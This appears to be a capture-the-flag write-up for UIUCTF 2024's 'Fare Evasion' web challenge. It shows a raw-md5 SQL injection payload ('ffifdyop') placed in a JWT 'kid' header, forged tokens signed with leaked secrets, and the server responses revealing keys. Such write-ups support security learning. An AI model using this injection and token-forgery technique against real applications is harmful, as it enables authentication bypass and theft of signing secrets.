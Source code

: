 # Writeup for Fare Evasion challenge hosted in UIUCTF 2024

![image](https://github.com/Ryuou02/ctf-writeups/assets/133224167/9bf0e398-d557-406f-892c-88d1b057a0f6)

on opening the challenge, we're greeted with this page and when we click the only button we can ("I'm a passenger"), this appears

![image](https://github.com/Ryuou02/ctf-writeups/assets/133224167/b70ce90e-b6d9-4ee2-b43b-9d0ba1531fbe)

now, looking at the cookies being sent to get this message, we'll see this - 

![image](https://github.com/Ryuou02/ctf-writeups/assets/133224167/b77f226f-e40b-4360-bf8f-ec54c8fb5eb7)
there is a jwt cookie being sent. On decoding it, we see there are few parameters
the headers look like - 
```
{
  "alg": "HS256",
  "kid": "passenger_key",
  "typ": "JWT"
}
```
and the data looks like - 
```
{
  "type": "passenger"
}
```
In the *page source* we see
```
<script>
    async function pay() {
      // i could not get sqlite to work on the frontend :(
      /*
        db.each(`SELECT * FROM keys WHERE kid = '${md5(headerKid)}'`, (err, row) => {
        ???????
       */
      const r = await fetch("/pay", { method: "POST" });
      const j = await r.json();
      document.getElementById("alert").classList.add("opacity-100");
      // todo: convert md5 to hex string instead of latin1??
      document.getElementById("alert").innerText = j["message"];
      setTimeout(() => { document.getElementById("alert").classList.remove("opacity-100") }, 5000);
    }
  </script>
```
They have mentioned how they are retrieving the passenger key from the database in comments. It probably means they want us to know that an sqli is possible here. We see that they are using raw md5 while storing and retrieving data. The problem with this is that, any kind of characters can be in the raw md5, so all we need to do is find a string such that when it is hashed in md5, it will look something like - ` ' or '1` so that we can do sqli attack and get all records in the database.

I found the string "ffifdyop" which matches our need, from the url - 
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/README.md#authentication-bypass-raw-md5-sha1

So we need to put that in the `kid` parameter in the head of the jwt token and sign the jwt with the secret they have given us - `a_boring_passenger_signing_key_?` to get the jwt `eyJhbGciOiJIUzI1NiIsImtpZCI6ImZmaWZkeW9wIiwidHlwIjoiSldUIn0.eyJ0eXBlIjoicGFzc2VuZ2VyIn0.zgePz4fg9QKihcFTuT8SEYy0vIwNnIuNSmb7vZuNVrE` 
 and we get response looking like - 
```
"Sorry passenger, only conductors are allowed right now. Please sign your own tickets. \nhashed \u00f4\u008c\u00f7u\u009e\u00deIB\u0090\u0005\u0084\u009fB\u00e7\u00d9+ secret: conductor_key_873affdf8cc36a592ec790fc62973d55f4bf43b321bf1ccc0514063370356d5cddb4363b4786fd072d36a25e0ab60a78b8df01bd396c7a05cccbbb3733ae3f8e\nhashed _\bR\u00f2\u001es\u00dcx\u00c9\u00c4\u0002\u00c5\u00b4\u0012\\\u00e4 secret: a_boring_passenger_signing_key_?"
```
now all I do is sign the previous jwt with the new secret that they have given us - `conductor_key_873affdf8cc36a592ec790fc62973d55f4bf43b321bf1ccc0514063370356d5cddb4363b4786fd072d36a25e0ab60a78b8df01bd396c7a05cccbbb3733ae3f8e`
and get the jwt
`eyJhbGciOiJIUzI1NiIsImtpZCI6InBhc3Nlbmdlcl9rZXkiLCJ0eXAiOiJKV1QifQ.eyJ0eXBlIjoicGFzc2VuZ2VyIn0._svKe3YzdQdpJbS7DGr9yOIXzpxza9sKNuxQBEeCHcU`

# obtaining the flag - 
![image](https://github.com/Ryuou02/ctf-writeups/assets/133224167/8b1fc819-f5bb-4dcc-8959-359de801ce1f)

# conclusion
I used raw md5 for sqli for first time in this challenge. And this is the first time I see that the secret is used for identifying the content of the jwt.
